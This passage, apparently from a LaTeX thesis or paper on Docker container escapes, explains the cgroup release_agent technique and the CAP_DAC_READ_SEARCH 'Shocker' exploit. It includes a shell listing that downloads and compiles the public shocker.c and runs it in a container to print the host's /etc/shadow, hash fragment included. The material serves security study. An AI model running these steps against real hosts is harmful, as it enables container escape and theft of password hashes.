 Unlike before, instead of relying on \lstinline{--privilege} to give us write access to a \lstinline{cgroup}, we just need to mount our own. This gives us exactly the same scenario as before. We use a \lstinline{release_agent} to run code on the host. The only difference being that we have to do some manual work ourselves.

\subsubsection{\texorpdfstring{\lstinline{CAP_DAC_READ_SEARCH}}{CAP_DAC_READ_SEARCH}}
Before Docker 1.0.0 \lstinline{CAP_DAC_READ_SEARCH} was added to the default capabilities that a containers are given. But this capability allows a process to escape its the container\cite{Docker-Shocker-Seclists}. To demonstrate this attack a proof of concept exploit was released\cite{Docker-Shocker}\cite{Docker-Shocker-Analysis}. This exploit has been released in 2014, but still works on containers with the \lstinline{CAP_DAC_READ_SEARCH} capability.

\hfill

\begin{lstlisting}[caption={Docker escape using \lstinline{CAP_DAC_READ_SEARCH}},captionpos=b]
(host)$ cd /tmp
(host)$ curl -O http://stealth.openwall.net/xSports/shocker.c
(host)$ sed -i "s/\/.dockerinit/\/tmp\/a.out/" shocker.c
(host)$ cc -Wall -std=c99 -O2 shocker.c -static
(host)$ docker run --rm -it --cap-add="CAP_DAC_READ_SEARCH" -v "/tmp:/tmp" busybox sh
(cont)# /tmp/a.out
...
[!] Win! /etc/shadow output follows:
...
admin:$6$VOSV5AVQ$jHWxAVAUgl...:18142:0:99999:7:::
\end{lstlisting}

The exploit needs a file with a file handle on the host system to properly work. Instead of the default \lstinline{/.dockerinit} (which is no longer created in newer versions of Docker) we use the exploit file itself \lstinline{/tmp/a.out}. We start a container with the \lstinline{CAP_DAC_READ_SEARCH} capability and run the exploit. It prints the password file of the host (\lstinline{/etc/shadow}).

